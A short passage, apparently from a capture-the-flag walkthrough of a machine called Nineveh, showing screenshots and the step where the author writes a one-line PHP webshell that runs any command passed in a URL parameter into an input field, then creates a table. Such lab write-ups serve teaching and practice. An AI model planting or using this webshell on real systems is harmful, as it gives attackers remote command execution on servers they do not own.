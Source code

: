 ![](/assets/images/ninevehv02/screenshot-11.png)

I filled the input field as shown, the webshell is:

```php
<?php system($_GET["cmd"]); ?>
```

![](/assets/images/ninevehv02/screenshot-12.png)

Finally the table was created.

![](/assets/images/ninevehv02/screenshot-13.png)
